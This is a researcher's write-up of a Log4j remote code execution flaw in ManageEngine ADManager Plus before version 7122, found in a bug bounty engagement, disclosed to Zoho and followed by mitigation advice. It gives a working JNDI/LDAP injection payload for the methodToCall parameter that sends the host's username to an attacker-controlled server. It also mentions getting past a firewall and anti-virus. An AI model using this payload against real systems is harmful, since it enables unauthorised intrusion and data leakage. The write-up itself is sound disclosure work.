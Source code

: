 # AD manager Plus log4j remote code execution affected before version 7122

### Description

In the summer of 2022, I have been doing security engagement on Synack Red Team in the collaboration with my good friend (Thura Moe Myint). At that time, Log4j was already widespread on the internet. Manage Engine had already patched the Ad Manager Plus to prevent it from being affected by the Log4j vulnerability. They had mentioned that Log4j was not affected by Ad Manager Plus. However, we determined that the Ad Manager Plus was running on our target and managed to exploit the Log4j vulnerability.

### Exploitation

First, Let’s make a login request using  proxy.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/admanager.png)

Inject the following payload in the ```methodToCall``` parameter in the ```ADSearch.cc``` request.

```
${jndi:ldap://${sys:user.name}.<your-server>}
```

![](https://raw.githubusercontent.com/channyein1337/research/main/images/burp_request.png)

Then you will get the dns callback with username in your burp collabrator.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/username.png)

POC Of Achieving Full RCE

![](https://raw.githubusercontent.com/channyein1337/research/main/images/poc.png)


### Notes

When we initially reported this vulnerability to Synack, we only managed to get a DNS callback and our report was marked as LDAP injection. However, we attempted to gain full RCE on the host but were not successful. Later, we discovered that Ad Manager Plus was running on another target, so we tried to get full RCE on that target. We realized that there was a firewall and an anti-virus running on the machine, so most of our payloads wouldn't work. After spending a considerable amount of time , we eventually managed to  bypass the firewall and anti-virus, and achieve full RCE.

### Conclusion

We had already informed Zoho about the log4j vulnerability, and even after it was fixed, they decided to reward us with a bonus bounty for our report. 

### Mitigation

Updating to a version of Ad Manager Plus higher than 7122 should resolve the issue.
